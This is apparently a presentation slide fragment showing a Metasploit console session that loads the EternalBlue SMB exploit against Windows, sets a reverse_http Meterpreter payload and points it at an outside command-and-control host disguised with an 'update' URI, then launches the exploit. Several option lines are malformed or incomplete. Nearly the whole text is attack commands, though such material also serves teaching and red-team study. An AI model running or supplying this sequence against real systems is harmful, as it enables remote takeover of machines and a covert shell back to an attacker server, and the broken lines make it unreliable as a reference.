

# Metasploit handler/exploit
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set payload windows/x64/meterpreter/reverse_http
msf5 > set RHOST 127.0.0.1
msf5 > set RPORT, etc……

msf5 > set LHOST c2.0wasp.dk
msf5 > set LPORT 80
msf5 > set LURI update
msf5 > OverrideRequestHost true
msf5 > ReverseListenerBindAddress 0.0.0.0
msf5 > ReverseListenerBindPort 2000
msf5 > SessionCommunicationTimeout 0
msf5 > ExitOnSession false
msf5 > exploit